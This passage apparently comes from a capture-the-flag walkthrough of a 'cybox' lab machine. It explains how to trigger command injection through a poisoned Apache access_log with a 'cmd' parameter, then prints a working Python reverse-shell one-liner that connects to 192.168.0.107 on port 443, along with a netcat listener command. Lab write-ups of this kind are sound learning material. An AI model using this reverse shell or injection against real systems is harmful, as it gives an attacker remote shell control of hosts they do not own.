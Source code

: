 Access the payload from `/opt/bitnami/apache2/logs/access_log` and append `cmd` parameter for command injection. 

![phpinecjtion](/assets/img/cybox/phpinjection1.png)

Now get the reverse shell.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.107",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![rev](/assets/img/cybox/rev.png)
```
$sudo nc -nvlp 443
listening on [any] 443 ...
```